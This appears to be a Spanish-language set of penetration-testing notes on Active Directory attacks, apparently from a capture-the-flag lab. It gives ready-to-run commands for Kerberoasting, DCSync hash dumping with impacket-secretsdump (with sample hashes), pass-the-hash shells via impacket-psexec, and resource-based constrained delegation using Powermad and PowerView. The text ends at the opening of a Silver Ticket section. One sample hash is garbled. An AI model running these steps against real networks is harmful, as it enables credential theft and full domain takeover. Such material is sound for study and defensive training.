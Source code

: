 ---- 
## Kerberoasting Attack:

##### Al tener credenciales validas, podriamos efectuar un kerberoasting attack:

```shell
GetUserSPNs.py {dc}/{user}:{passwd}
# En caso de que esto tirase error, por ejemplo por estar desactivada el registro NTLM:
GetUserSPNs.py {dc}/{user}:{passwd} -k -debug
# -k tirar de kerberos, -debug --> ver errores 
# Podriamos buscar el error que nos arroja la consola, y ver que habria que modificar el script de GetUsersSPNs.py
# Linea 260 aprox, en funcion run: 
# new line ---> target = self.__kdcHost
# old line --> #target = self.getMachineName()  <-- old line 260 code that we're no longer running
impacket-GetUserSPNs {dc}/{user}:{passwd} -k -debug -dc-ip {target_ip} -dc-host {dc}
# De esta manera nos devolveria un SPN --> (Service Principal Name: esto esta asociado a un objeto de ad (cuenta de user, group o pc) en el cual el servicio se ejecuta)

```

---

## DCSync attack:

##### Permite al atacante simular el comportamiento del Domain Controller 
##### ( #DC ) y recuperar datos de conraseñas a través de replicación de domino. 

### Proceso: 

- ##### El atacante descubre el domain controller para solicitar la replicación.
- ##### El atacante solicita la replicación de usuarios mediante #GetNCChangesolic 
- ##### El DC retorna la respuesta, inluyendo los hashes de las contraseñas de los usuarios. 

##### Muchas veces la infraestructura de las organizaciones necesita más de un #DC, para el #AD. Para mantener la choerencia de un entorno con más de un DC , es necesario que los objetos de AD se repliquen a través de esos DC. 
##### La mayoria de las tareas relacionadas con la replicación se especifican en el Protocolo remoto de Serivico de replicación de directorios. 

## Explotación 

##### Cuando un usuario posee los permisos de GetChanges y GetChangesAll podrá realizar una replicación de dominio, de esta manera podemos usar herramientas como impacket para obtener los hashes de las contraseñas de los usuarios...

```shell
impacket-secretsdump {domain}/{user}@{target_ip}

# Ejemplo 
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/userx@10.10.10.175
# Esto realizara la replicación y nos arrojara algo como lo siguiente: 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ffjava802229e466e2c:::
# En donde podemos ver los hashes de las contraseñas de los usuarios, por ejemplo, el hash de la password de el usuario Administrator es "823452073d75b9d1cf70ebdf86c7f98e", 
```

##### Teniendo el hash de la contraseña del usuario, podemos utlizar la herramienta "impacket-psexec" (Herramienta de línea de comandos que permite a los admins de sistemas ejecutar comandos), para solicitar un consola interactiva:

```shell
impacket-psexec {domain}/{user}@{target_ip} cmd.exe --hashes :{hash}
# Esto nos arrojaria una consola interactiva con permisos de administrador

# Ejemplo 
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe --hashes :823452073d75b9d1cf70ebdf86c7f98e

```

---

## Resource-based Constraint Delegation:

##### El Resource-based Constraint Delegation establece en el objeto quién puede suplantar a cualquier usuario en su contra.
##### En este caso, el objeto restringido tendrá un atributo llamado msDS-AllowedToActOnBehalfOfOtherIdentity con el nombre del usuario que puede suplantar a cualquier otro usuario en su contra.
###### Otra diferencia importante de esta Delegación restringida a las otras delegaciones es que cualquier usuario con permisos de escritura sobre una cuenta de máquina (GenericAll/GenericWrite/WriteDacl/WriteProperty/etc) puede configurar el msDS-AllowedToActOnBehalfOfOtherIdentity (En las otras formas de Delegación necesitaba administrador de dominio privs).

- ##### El atacante compromete una cuenta que tiene un SPN o crea uno ("Servicio A"). Tenga en cuenta que cualquier usuario administrador sin ningún otro privilegio especial puede crear hasta 10 objetos de equipo (MachineAccountQuota) y establecerles un SPN. Entonces, el atacante puede simplemente crear un objeto de computadora y establecer un SPN.
- ##### El atacante abusa de su privilegio de ESCRITURA sobre la computadora víctima (ServiceB) para configurar la delegación restringida basada en recursos para permitir que ServiceA suplante a cualquier usuario contra esa computadora víctima (ServiceB).
- ##### El atacante usa Rubeus (U otras maneras de explotar y realizar el ataque) para realizar un ataque S4U completo (S4U2Self y S4U2Proxy) del Servicio A al Servicio B para un usuario con acceso privilegiado al Servicio B.
	- ##### S4U2Self (de la cuenta SPN comprometida/creada): Solicite un TGS de administrador para mí (no reenviable).
	- ##### S4U2Proxy: use el TGS no reenviable del paso anterior para solicitar un TGS del administrador al host de la víctima.
	- ##### Incluso si está utilizando un TGS no reenviable, ya que está explotando la delegación restringida basada en recursos, funcionará.
- ##### El atacante puede pasar el ticket y hacerse pasar por el usuario para obtener acceso al ServiceB de la víctima.

### Explotación:

##### Así como se puede explotar con Rubeus, existen otras maneras, desde el script rbcd.py encontrado en github https://github.com/tothi/rbcd-attack, así como tambien usando las herramientas de impacket:

##### Lo primero que deberiamos hacer es crear el Computer Objetc, para esto usaremos powermad (Se recomienda tambien usar powerview)
- ##### Powermad: (wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1) 
- ##### Powerview: (wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1)
##### Ambos deberian transferirise a la maquina victima windows que tenemos pwneada, una vez en ella:

```powershell 
Import-Module .\Powermad.ps1
Import-Module .\PowerView.ps1
New-MachineAccount -MachineAccount {evilPC_name} -Password $(ConvertTo-SecureString '{evilPC_passwd}' -AsPlainText -Force) -Verbose
```

##### Una vez creada la maquina, podriamos (haciendo uso de powerview) ver si esta se creo correctamente: 

```powershell
Get-DomainComputer {evilPC_name}
```

#### Luego, haciendo uso de powerview declaramos algunas variables para realizar el ataque: 

```powershell
$targetComputer = {taget_Computer}

$ComputerSid = Get-DomainComputer {evilPC_name} -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"

$SDBytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Adicionalmente, una vez más, haciendo uso de powerview podriamos corroborar que todo haya salido ok, ejecutando: 

Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

# Lo que deberia arrojar: 
# msds-allowedtoactonbehalfofotheridentity

# ----------------------------------------

# {1, 0, 4, 128...}
```

#####  De esta manera habriamos realizado todo, solo quedaria solicitar un TGT a #KERBEROS para suplantar la identidad del usuario que deseemos. 
##### En nuestra maquina atacante con linux: 

```shell
impacket-getST -spn cifs/{dc} -impersonate {user_to_supplant} -dc-ip {dc_ip} {dc}/{evilPC_name}$:{evilPC_password}
```

##### De esta manera habriamos solicitado y conseguido el TGT para el usuario que desearamos, por lo que simplemente quedaria exportart la variable global KRB5CCNAME, y utilizar psexec para autenticarnos como el usuario suplantado: 

```shell
export KRB5CCNAME=$(pwd)/{user_to_supplant}.ccahe

impacket-psexec -k {dc}
```

---

## Silver Ticket Attack: 

#### Esto suele ser muy raro, pero posible, y consiste en cuando poseemos credenciales validas de un usuario con SPN (Service Principal Name), es decir, un usuario que corre un servicio en particular, como myqsl, así como a su vez tenemos el hash NTLM (Que con tener la passwd se puede generar), asi como el SID del dominio.

